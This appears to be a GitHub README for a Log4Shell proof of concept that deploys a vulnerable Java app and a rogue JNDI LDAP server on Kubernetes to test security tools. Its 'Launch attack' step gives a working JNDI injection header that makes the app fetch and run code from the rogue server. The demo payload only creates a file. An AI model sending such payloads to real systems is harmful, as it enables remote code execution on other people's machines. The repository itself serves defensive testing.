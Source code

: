 # log4shell-kubernetes

A log4shell proof of concept running on Kubernetes.

This is not much different from other POCs, just automated in simple steps to test Kubernetes specific security tools.

It uses the following projects:
* https://github.com/christophetd/log4shell-vulnerable-app
* https://github.com/veracode-research/rogue-jndi

For more information, check:
* https://vicenteherrera.com/blog/log4j-part-i/

## Build and push docker images

**This step is optional**. You can build your own images if you want instead of using the ones available at [quay.io/vicenteherrera](https://quay.io/user/vicenteherrera).

```bash
# Clone this repo, including repos rogue-jndi and log4shell-vulnerable-app as submodules
git clone --recurse-submodules https://github.com/vicenteherrera/log4shell-kubernetes
# Don't forget the "--recurse-submodule" part!
cd log4shell-kubernetes

# Build and push rogue-jndi
docker build ./rogue-jndi -t quay.io/vicenteherrera/rogue-jndi -f Dockerfile-rogue-jndi
docker push quay.io/vicenteherrera/rogue-jndi

# Build and push log4shell-vulnerable-app
cd log4shell-vulnerable-app
docker build . -t quay.io/vicenteherrera/quay.io/vicenteherrera/log4shell-vulnerable-app
docker push quay.io/vicenteherrera/log4shell-vulnerable-app
cd ..
```

The provided [Dockerfile-rogue-jndi](https://github.com/vicenteherrera/log4shell-kubernetes/blob/main/Dockerfile-rogue-jndi) in this repo is set up to executed on the compromised workload the command:

```bash
touch /root/test.txt
```

## Start Minikube

If you want to test this locally, you can use [Minikube](https://minikube.sigs.k8s.io/docs/) for example.

```bash
minikube start
```

## Deploy on Kubernetes

You can use the online YAML files that points to quay.io container images, no need to clone this repo if you don't need to modify them.

```bash
# vulnerable-log4j deployment and service
kubectl apply -f https://raw.githubusercontent.com/vicenteherrera/log4shell-kubernetes/main/vulnerable-log4j.yaml
# rogue-jndi deployment and service
kubectl apply -f https://raw.githubusercontent.com/vicenteherrera/log4shell-kubernetes/main/rogue-jndi.yaml
```

## Watch logs

```bash
# On different terminals
kubectl logs service/rogue-jndi -f
kubectl logs service/vulnerable-log4j -f
```

## Launch attack

```bash
kubectl run my-shell --rm -it --image curlimages/curl -- sh
curl vulnerable-log4j:8080 -H 'X-Api-Version: ${jndi:ldap://rogue-jndi:1389/o=tomcat}'
exit
```

## Check that the attack succeded on the vulnerable app

```bash
kubectl exec service/vulnerable-log4j -it -- ls /root
```

It should list `test.txt` if the attack is successful.

## Try everything using Okteto 

With [Okteto](https://www.okteto.com/) you can have an online development cluster for free.

```bash
# Deploy on Okteto cloud cluster
okteto pipeline deploy
okteto kubeconfig
# Check deployment, launch an test attack
# [...]
# Destroy Okteto cloud cluster
okteto pipeline destroy
```

## More information

* My blog post at "The Vlog": [Log4j 2 vulnerabilities, part I: History](https://vicenteherrera.com/blog/log4j-part-i/)
* Follow me on Twitter: [@vicen_herrera](https://twitter.com/vicen_herrera)
